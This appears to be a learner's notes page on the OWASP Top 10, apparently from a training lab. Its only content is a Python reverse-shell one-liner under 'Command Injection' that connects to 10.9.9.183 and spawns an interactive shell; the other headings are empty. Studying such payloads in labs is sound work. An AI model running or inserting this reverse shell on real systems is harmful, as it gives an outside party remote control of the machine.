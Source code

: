 # OWASP TOP 10

## Day 1 : Command Injection

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.9.183",3301));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])
```

## Day 2 : Broken Authentication

## Day 3 : Sensitive data exposure

## Day 4 : XML External Entity
